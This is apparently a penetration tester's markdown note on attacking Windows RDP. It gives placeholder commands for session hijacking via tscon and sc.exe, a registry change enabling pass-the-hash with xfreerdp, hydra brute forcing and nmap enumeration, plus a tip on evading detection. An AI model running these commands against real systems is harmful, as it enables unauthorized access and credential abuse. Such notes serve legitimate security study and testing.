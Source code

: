 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
*Remote Desktop Protocol* (*RDP*) is a protocol for accessing a windows system remotely. It transmits display and control commands via a GUI over an encrypted TCP connection.

**Standard Port:** 
- 3389/tcp
- 3389/udp

| service name | releases link | notes |
| ------------ | ------------- | ----- |
|              |               |       |
## How it works
- Supports TLS/SSL but many windows systems don't insist it must be used. 
- By default the certificates are self-signed.
- It comes installed on windows by default. Activated using the *Server Manager*.
- Defaults to only allowing connections from hosts with [Network level authentication](https://en.wikipedia.org/wiki/Network_Level_Authentication) (*NLA*).

## Configuration


## Potential Capabilities
- Remote GUI access to a windows target
- RDP Session Hijacking

### RDP Session Hijacking
If we have a compromised `SYSTEM` account we can use this privilege to hijack another user's session with [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) (*this might let us gain access to a domain admin for example*).
```PowerShell
# Get all the users that have desktop sessions (shows us their session IDs)
PS C:\> query user

# Connect another user's session to our current one
PS C:\> tscon [TARGET_SESSION_ID] /dest:[OUR_SESSION_NAME]
```

We can use the [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) to create a new service running as the `Local System` user to perform our goal:
```batch
C:\> sc.exe create [service_name] binpath= "[command_to_run]"
C:\> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

C:\> net start sessionhijack
```
> Also works in PS
> Patched: no longer works on Server 2019 :(

### PtH via RDP (Linux)
Under certain circumstances, PtH can be achieved via RDP to gain GUI access using a tool like [[xfreerdp]].
- `Restricted Admin Mode` must be enabled (*disabled by default*) on the target host.
	- The `DisableRestrictedAdmin` (*REG_DWORD*) key can be added to the `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value 0.
```batch
C:\> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once enabled, we can use [[xfreerdp]] and the `/pth` option to gain access
```bash
$ xfreerdp /v:[target_ip] /u:[user] /pth:[hash]
```
User Account Control (UAC) can limit a local user's ability to perform remote administration operations. If the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, only the built-in local admin can perform these operations. Setting it to 1 will allow other local admins.
> If the registry key `FilterAdministratorToken` is enabled (set to 1, but *disabled by default*) then even the RID 500 account is restricted. Meaning remote PTH will fail against even this account.

These settings only apply to local administrator accounts however, domain accounts with admin rights on the system can still be exploited using PtH.
## Enumeration Checklist

| Goal                | Command(s)                                                                    | Refs                                                                                                                                                               |
| ------------------- | ----------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| General Information | sudo nmap [ip] -sV -sC -p3389 --script rdp*                                   |                                                                                                                                                                    |
| RDP security check  | sudo cpan<br>rdp-sec-check.pl [ip]<br>                                        | [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check)                                                                                               |
| RDP Bruteforce      | hydra -L [user_list] -P [pass_list] rdp://[ip]                                | [[Hydra]]<br>> this can cause account lockouts, so password-spraying attacks are preferred ([Crowbar](https://github.com/galkan/crowbar) can be used for this too) |
| Connect to an RDP   | xfreerdp /u:[user] /p:[pass] /v:[ip]<br><br>rdesktop -u [user] -p [pass] [ip] |                                                                                                                                                                    |
> Nmap uses the cookie `mstshash=nmap` on RDP connections. This can be identified by threat hunters or EDRs that could result in us getting blocked.
### Nmap Scripts
- rdp-*
- rdp-enum-encryption
- rdp-ntlm-info